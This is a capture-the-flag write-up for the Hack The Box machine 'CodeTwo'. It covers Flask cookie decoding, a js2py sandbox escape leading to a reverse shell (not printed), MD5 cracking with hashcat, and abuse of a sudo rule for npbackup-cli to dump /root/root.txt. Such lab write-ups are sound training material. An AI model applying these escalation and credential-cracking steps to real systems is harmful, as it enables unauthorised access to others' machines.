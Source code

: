 ```yaml
---
slug: /write-up/htb/machines/easy/codetwo
pagination_next: null
pagination_prev: null
draft: true
---
```


# CodeTwo

## Enumeration

Web Application running in port 8000:

```
At CodeTwo, we provide a platform designed to help developers quickly write, save, and run their JavaScript code
```

It is a webpage that allows to execute JS, but there's a catch.. looks like the server is a `gunicorn` one, so most likely there's a python backend. Looks like we're dealing with a server running python and a JS sandbox library such as `js2py` or something similar.

There's a cookie named `session` that looks like a JWT token, but it is not. It's a Flask signed cookie:

```bash
flask-unsign --decode --cookie 'eyJ1c2VyX2lkIjozLCJ1c2VybmFtZSI6IjEyMzQifQ.aKdBbw.jd5pRsxNMAaHejkYelD8Nea3Zq4'
{'user_id': 3, 'username': '1234'}
```

In the download button, we can download the source code and we have the source code and the secret key to generate the signed cookie.

Trying to forge it was successful in local but unsuccessful in the target, so probably the secret key is not the same in the target.

## Foothold

Checking the source code, it was easy to identify the JS sandbox: `js2py` which has some available pocs in github. Since we have the source code, we can even determine if the app is vulnerable or not: the poc had an utility to verify if the app is vulnerable or not.

After that, we can create a payload and put a reverse shell on it.

## Lateral movement

The reverse shell user was `app`. To get a real users, we can leverage on the database to reveal the user `marco` with a hash that was bruteforced with hashcat easily:

```shell
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

And we got user flag!

## Privilege escalation

No weird applications running on port.

Looks like the machine is using https://github.com/netinvent/npbackup to do backups.

Our user can run some `npbackup` command as root without password:

```bash
marco@codetwo:/opt/npbackup-cli$ sudo -l
Matching Defaults entries for marco on codetwo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codetwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

The idea is to abuse of the `sudo` permission to create a backup of the root folder and later retrieve the flag.

```bash
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --backup
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --dump /root/root.txt --snapshot-id 9575e23c
```
